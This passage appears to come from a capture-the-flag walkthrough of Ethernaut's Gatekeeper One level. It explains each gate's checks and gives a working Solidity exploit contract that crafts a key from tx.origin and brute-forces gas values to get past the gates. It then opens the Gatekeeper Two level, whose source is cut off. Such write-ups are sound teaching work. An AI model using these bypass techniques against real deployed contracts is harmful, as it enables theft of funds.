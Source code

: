 
- The first `gateOne` is similar to `Telephone` challenge, we need to call the contract from another contract instead of EOA.
- The second `gateTwo` will check the amount of  gasLeft at the time operation is divisible by `8191`, we can call the contract by specifying gas so this can be brute forced.
- The Last one consists of three checks,

`require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");`
The `uint32` takes the lower 32 bits, and `uint16` takes the lower 16 bits, so in order to pass the check we need to set the bits 16 - 31 to `0`.

`require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");`
Here the higher 32 bits of `uint64` should not be equal to `0` since both these parameters shouldn't be equal.

`require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");`
And finally the lower 16 bits must be equal to lower 16 bits of the `tx.origin`.

> #### Solution:
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.6.0;
> 
> contract gateOneExp {
>     constructor(address _instance) public {
>         uint64 key = 0;
>         key = key ^ uint16(tx.origin);
>         key = key ^ (1 << 32);
>         for(uint i = 0; i < 8191; i++ ){
>             (bool result, ) = _instance.call{gas: 300000 + i}(abi.encodeWithSignature("enter(bytes8)", bytes8(key)));
>             if (result){
>                 break;
>             }
>         }
>     }
> }
> ```

<hr>

## 14 Gatekeeper Two
We need to pass all the checks of the modifiers (`gateOne`, `gateTwo` and `gateThree`) to finish the level.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
```